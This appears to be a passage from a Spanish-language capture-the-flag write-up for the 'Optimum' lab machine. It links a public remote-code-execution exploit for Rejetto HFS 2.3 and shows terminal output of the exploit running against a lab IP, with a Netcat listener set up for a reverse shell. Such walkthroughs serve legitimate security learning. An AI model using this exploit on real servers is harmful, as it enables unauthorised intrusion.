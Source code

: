 ![](/assets/img/Optimum/image_1.png)

## Web Exploitation

Al buscar por la versión de `HFS 2.3` he encontrado un exploit que nos permite obtener un `remote code execution` [https://github.com/randallbanner/Rejetto-HTTP-File-Server-HFS-2.3.x---Remote-Command-Execution/tree/main](https://github.com/randallbanner/Rejetto-HTTP-File-Server-HFS-2.3.x---Remote-Command-Execution/tree/main)

```
# python3 hfs-2-3-exploit.py 
Local Host IP       : 10.10.16.16
Listen Port         : 443
Remote Host IP      : 10.129.192.202
HTTP FileServer Port: 80

[+] Checking URL Is HTTP FileServer 2.3...
[+] Target is online and appears to be HttpFileServer 2.3
[+} Building Exploit
[+] Do you want me to start a Netcat Listener for you? (Y/n): n
[+] Sending Exploit
                                                                                        

   ~/Desktop/Optimum/exploits  34s ❯ python3 hfs-2-3-exploit.py 
Local Host IP       : 10.10.16.16
Listen Port         : 4444
Remote Host IP      : 10.129.192.202
HTTP FileServer Port: 80

[+] Checking URL Is HTTP FileServer 2.3...
[+] Target is online and appears to be HttpFileServer 2.3
[+} Building Exploit
[+] Do you want me to start a Netcat Listener for you? (Y/n): y
[+] Sending Exploit
[+] Starting Netcat on Port: 4444

```